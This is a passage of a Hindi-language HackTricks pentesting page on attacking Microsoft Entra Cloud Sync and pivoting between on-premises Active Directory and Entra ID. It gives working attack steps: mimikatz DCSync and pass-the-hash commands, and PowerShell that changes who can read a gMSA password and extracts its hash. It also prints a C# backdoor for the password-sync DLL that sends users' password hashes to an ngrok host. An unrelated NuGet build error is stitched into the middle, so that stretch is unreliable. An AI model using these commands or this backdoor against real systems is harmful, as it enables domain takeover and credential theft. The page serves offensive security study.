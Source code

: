 # Az - Cloud Sync

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Cloud Sync** मूल रूप से Azure का नया तरीका है **AD से Entra ID में उपयोगकर्ताओं को समन्वयित करने के लिए**।

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync Microsoft द्वारा एक नई पेशकश है जो उपयोगकर्ताओं, समूहों और संपर्कों को Microsoft Entra ID में समन्वयित करने के लिए आपके हाइब्रिड पहचान लक्ष्यों को पूरा करने और हासिल करने के लिए डिज़ाइन की गई है। यह Microsoft Entra Connect एप्लिकेशन के बजाय Microsoft Entra क्लाउड प्रोविजनिंग एजेंट का उपयोग करके इसे पूरा करता है। हालाँकि, इसे Microsoft Entra Connect Sync के साथ भी उपयोग किया जा सकता है।

### Principals Generated

इसका काम करने के लिए कुछ प्रिंसिपल Entra ID और On-Premise डायरेक्टरी में बनाए जाते हैं:

- Entra ID में उपयोगकर्ता `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) को **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`) भूमिका के साथ बनाया जाता है।

> [!WARNING]
> इस भूमिका के पास पहले बहुत सारे विशेषाधिकार थे और इसका उपयोग [**विशेषाधिकारों को वैश्विक व्यवस्थापक तक बढ़ाने के लिए किया जा सकता था**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b)। हालाँकि, Microsoft ने इस भूमिका के सभी विशेषाधिकारों को हटाने और इसे केवल एक नए **`microsoft.directory/onPremisesSynchronization/standard/read`** के साथ असाइन करने का निर्णय लिया है, जो वास्तव में किसी भी विशेषाधिकार कार्रवाई (जैसे उपयोगकर्ता का पासवर्ड या विशेषताओं को संशोधित करना या SP में एक नई क्रेडेंशियल जोड़ना) करने की अनुमति नहीं देता है।

- Entra ID में समूह **`AAD DC Administrators`** भी बिना सदस्यों या मालिकों के बनाया जाता है। यह समूह उपयोगी है यदि [`Microsoft Entra Domain Services`](./az-domain-services.md) का उपयोग किया जाता है।

- AD में, या तो सेवा खाता **`provAgentgMSA`** को **`pGMSA_<id>$@domain.com`** जैसे SamAcountName के साथ बनाया जाता है (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), या एक कस्टम खाता [**इन अनुमतियों की आवश्यकता है**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account)। आमतौर पर डिफ़ॉल्ट खाता बनाया जाता है।

> [!WARNING]
> अन्य अनुमतियों के बीच सेवा खाता **`provAgentgMSA`** के पास DCSync अनुमतियाँ हैं, जो **किसी भी व्यक्ति को जो इसे समझौता करता है, पूरे डायरेक्टरी को समझौता करने की अनुमति देती हैं**। [DCSync के बारे में अधिक जानकारी के लिए इसे देखें](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)।

> [!NOTE]
> डिफ़ॉल्ट रूप से, ज्ञात विशेषाधिकार समूहों के उपयोगकर्ता जैसे डोमेन व्यवस्थापक जिनका विशेषता **`adminCount` 1 है, Entra ID के साथ समन्वयित नहीं होते** सुरक्षा कारणों से। हालाँकि, अन्य उपयोगकर्ता जो इस विशेषता के बिना विशेषाधिकार समूहों का हिस्सा हैं या जिन्हें सीधे उच्च विशेषाधिकार सौंपे गए हैं **समन्वयित किए जा सकते हैं**।

## Password Sychronization

यह अनुभाग बहुत समान है:

{{#ref}}
az-connect-sync.md
{{#endref}}

- **पासवर्ड हैश समन्वयन** सक्षम किया जा सकता है ताकि उपयोगकर्ता **AD से अपने पासवर्ड का उपयोग करके Entra ID में लॉगिन कर सकें**। इसके अलावा, जब भी AD में पासवर्ड संशोधित किया जाता है, यह Entra ID में अपडेट हो जाएगा।
- **पासवर्ड राइटबैक** को भी सक्षम किया जा सकता है, जिससे उपयोगकर्ता अपने पासवर्ड को Entra ID में संशोधित कर सकते हैं, जो स्वचालित रूप से उनके पासवर्ड को ऑन-प्रिमाइस डोमेन में समन्वयित करता है। लेकिन [वर्तमान दस्तावेज़ों](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback) के अनुसार, इसके लिए Connect Agent का उपयोग करना आवश्यक है, इसलिए अधिक जानकारी के लिए [Az Connect Sync अनुभाग](./az-connect-sync.md) पर नज़र डालें।
- **समूह राइटबैक**: यह सुविधा Entra ID से समूह सदस्यताओं को ऑन-प्रिमाइस AD में वापस समन्वयित करने की अनुमति देती है। इसका मतलब है कि यदि किसी उपयोगकर्ता को Entra ID में एक समूह में जोड़ा जाता है, तो उन्हें AD में संबंधित समूह में भी जोड़ा जाएगा।

## Pivoting

### AD --> Entra ID

- यदि AD उपयोगकर्ताओं को AD से Entra ID में समन्वयित किया जा रहा है, तो AD से Entra ID में पिवट करना सीधा है, बस **किसी उपयोगकर्ता का पासवर्ड समझौता करें या किसी उपयोगकर्ता का पासवर्ड बदलें या एक नया उपयोगकर्ता बनाएं और जब तक यह Entra ID डायरेक्टरी में समन्वयित नहीं हो जाता (आमतौर पर केवल कुछ मिनट)**।

तो आप उदाहरण के लिए
- **`provAgentgMSA`** खाता समझौता करें, DCSync हमला करें, किसी उपयोगकर्ता का पासवर्ड क्रैक करें और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।
- बस AD में एक नया उपयोगकर्ता बनाएं, जब तक यह Entra ID में समन्वयित नहीं हो जाता और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।
- AD में किसी उपयोगकर्ता का पासवर्ड संशोधित करें, जब तक यह Entra ID में समन्वयित नहीं हो जाता और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।

**`provAgentgMSA`** क्रेडेंशियल्स को समझौता करने के लिए:
```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
अब आप gMSA के हैश का उपयोग करके `provAgentgMSA` खाते के खिलाफ Entra ID पर Pass-the-Hash हमले को अंजाम दे सकते हैं और DCSync हमलों को करने के लिए स्थिरता बनाए रख सकते हैं।

Active Directory को समझौता करने के तरीके के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> ध्यान दें कि Azure या EntraID भूमिकाएँ सिंक किए गए उपयोगकर्ताओं को उनके गुणों के आधार पर देने का कोई तरीका नहीं है, उदाहरण के लिए Cloud Sync कॉन्फ़िगरेशन में। हालाँकि, सिंक किए गए उपयोगकर्ताओं को स्वचालित रूप से अनुमतियाँ देने के लिए कुछ **AD से Entra ID समूहों** को अनुमतियाँ दी जा सकती हैं ताकि उन समूहों के अंदर सिंक किए गए उपयोगकर्ताओं को भी उन्हें प्राप्त हो सके या **गतिशील समूहों का उपयोग किया जा सकता है**, इसलिए हमेशा गतिशील नियमों और उन्हें दुरुपयोग करने के संभावित तरीकों की जांच करें:

{{#ref}}
../../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

स्थिरता के संबंध में [यह ब्लॉग पोस्ट](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) सुझाव देती है कि [**dnSpy**](https://github.com/dnSpy/dnSpy) का उपयोग करके **`Microsoft.Online.Passwordsynchronisation.dll`** में बैकडोर डालना संभव है जो **`C:\Program Files\Microsoft Azure AD Sync\Bin`** में स्थित है और जिसका उपयोग Cloud Sync एजेंट द्वारा पासवर्ड सिंक्रनाइज़ेशन करने के लिए किया जाता है, जिससे यह उपयोगकर्ताओं के पासवर्ड हैश को एक दूरस्थ सर्वर पर एक्सफिल्ट्रेट करता है। हैश **`PasswordHashGenerator`** क्लास के अंदर उत्पन्न होते हैं और ब्लॉग पोस्ट सुझाव देता है कि कुछ कोड जोड़ा जाए ताकि क्लास इस तरह दिखे (ध्यान दें `use System.Net` और पासवर्ड हैश को एक्सफिल्ट्रेट करने के लिए `WebClient` का उपयोग):
```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
// Token: 0x0200003E RID: 62
public class PasswordHashGenerator : ClearPasswordHashGenerator
{
// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
{
PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
try
{
using (WebClient webClient = new WebClient())
{
webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
}
}
catch (Exception)
{
}
return new PasswordHashData
{
Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
RawHash = passwordHashData.RawHash
};
}
}
}
```
NuGet Package restore failed for project AzTokenFinder: Unable to find version '4.3.2' of package 'System.Security.Cryptography.X509Certificates'.
C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: Package 'System.Security.Cryptography.X509Certificates.4.3.2' is not found on source 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\'.
. Please see Error List window for detailed warnings and errors.

### Entra ID --> AD

- यदि **Password Writeback** सक्षम है, तो आप Entra ID से कुछ उपयोगकर्ताओं का पासवर्ड संशोधित कर सकते हैं और यदि आपके पास AD नेटवर्क तक पहुंच है, तो उनके माध्यम से कनेक्ट करें। अधिक जानकारी के लिए [Az Connect Sync section](./az-connect-sync.md) अनुभाग देखें क्योंकि पासवर्ड राइटबैक उस एजेंट का उपयोग करके कॉन्फ़िगर किया गया है।

- इस समय Cloud Sync भी **"Microsoft Entra ID to AD"** की अनुमति देता है, लेकिन बहुत समय बाद मैंने पाया कि यह EntraID उपयोगकर्ताओं को AD में समन्वयित नहीं कर सकता और यह केवल उन EntraID उपयोगकर्ताओं को समन्वयित कर सकता है जो पासवर्ड हैश के साथ समन्वयित किए गए थे और उसी डोमेन वन के डोमेन से आते हैं जिसमें हम समन्वयित कर रहे हैं, जैसा कि आप पढ़ सकते हैं [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - ये समूह केवल ऑन-प्रिमाइसेस समन्वयित उपयोगकर्ताओं और / या अतिरिक्त क्लाउड द्वारा बनाए गए सुरक्षा समूहों को शामिल कर सकते हैं।
> - ऑन-प्रिमाइसेस उपयोगकर्ता खाते जो समन्वयित हैं और इस क्लाउड द्वारा बनाए गए सुरक्षा समूह के सदस्य हैं, वे उसी डोमेन या क्रॉस-डोमेन से हो सकते हैं, लेकिन सभी को एक ही वन से होना चाहिए।

इसलिए इस सेवा की हमले की सतह (और उपयोगिता) काफी कम हो जाती है क्योंकि एक हमलावर को उन उपयोगकर्ताओं को समन्वयित करने के लिए प्रारंभिक AD से समझौता करना होगा ताकि दूसरे डोमेन में एक उपयोगकर्ता से समझौता किया जा सके (और दोनों को स्पष्ट रूप से एक ही वन में होना चाहिए)।

### Enumeration
```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
--method GET \
--uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
--headers "Content-Type=application/json"
```
{{#include ../../../../banners/hacktricks-training.md}}

